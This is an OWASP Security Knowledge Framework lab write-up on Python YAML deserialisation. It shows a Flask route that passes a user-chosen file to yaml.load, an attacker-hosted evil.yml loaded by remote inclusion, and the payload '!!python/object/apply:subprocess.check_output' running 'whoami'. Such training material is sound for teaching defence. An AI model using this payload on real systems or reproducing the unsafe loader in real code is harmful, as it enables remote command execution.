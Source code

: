 # KBID 271 - Deserialisation Yaml

## Running the app

```
$ sudo docker pull blabla1337/owasp-skf-lab:des-yaml
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step1

This application is using a .yaml file to use the content and display the content in the HTML. As you can see below the default .yaml file that is used on the server "file.yaml" and the contents of this file.  

![](.gitbook/assets/screen-shot-2019-01-31-at-12.29.14.png)

In the content of the .yaml file you can see it uses a key value pair -&gt; foo : value  
Also we can have a look at the documentation of the Python implementation for the .yaml file here:

{% embed url="https://yaml.readthedocs.io/en/latest/detail.html" %}

The application works by loading the URL as seen in the application and will use the default "file.yaml" to be processed by the application and parse the key value to display the content in the application as shown below.

![](.gitbook/assets/screen-shot-2019-01-31-at-12.29.26.png)

In the code example the "file" parameter is used to read the file from the filesystem but as you can see this is under the users control. Then this file is being used in the yaml.load method to parse the file and retrieve the value from it. Instead of just reading the intended text files from the file system, a potential attacker could abuse this function to also supply his own crafted yaml file that the attacker controls.

```python
@app.route("/information/&file=<path:filename>", methods=['GET'])
def deserialization(filename):
     print(filename, file=sys.stdout)
     if filename == 'file.yml':
         with open(filename, 'rb') as handle:
            if filename == 'file.yml':
                # Import the PyYAML dependency
                with open(filename) as yaml_file:
                # Unsafely deserialize the contents of the YAML file
                    content = yaml.load(yaml_file)
```

## Exploitation

#### Step1

A potential attacker can now tamper the "file" parameter to be able to supply his own .yaml file and that will be parsed by the application. For doing this type of attack we need to perform a Remote File Inclusion \(RFI\) attack. Its a similair attack as the Local File Inclusion \(LFI\) only instead of loading the files from the server \(local\) we going to load the files remote \(our webserver\). First we need to create a test.yaml file in our webserver and load this by the application.

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.yml")
def start():
    return render_template("evil.yml")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

In the above code example we can run our own webserver using Python Flask en we can render our evil.yml file and make it available to be included. For the evil.yml we will use the same key value object as in the example of the applciation.

```yaml
foo: woop woop
```

Now we have prepared our webserver and our evil.yml file we can try to have it loaded and parsed by the application.

![](.gitbook/assets/screen-shot-2019-01-31-at-13.06.53.png)

As you can see our setup for performing a RFI attack works and we can now let the application parse our files. Now lets try to create one with more dangerous characters that can trigger a parser error, for example.

```yaml
foo: !!lala'.,<>
```

![](.gitbook/assets/screen-shot-2019-01-31-at-13.03.23.png)

The parser returned an error and was not able to parse our dangerous characters in our supplied file.  
When we will search on Python Yaml injections on the internet we will learn that it's possible in Yaml and the Python implementation to invoke a subprocess that will allow us to excecute commands. To perform this type of attack we need to use the following key value pair in our evil.yml file.

```yaml
foo: !!python/object/apply:subprocess.check_output ['whoami']
```

![](.gitbook/assets/screen-shot-2019-01-31-at-13.15.33.png)

Now when we used the new evil file we can see it launched the subprocess and excecuted the "whoami" command and displayed the outcome in the application.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Deserialization\_Cheat\_Sheet\#Python" %}

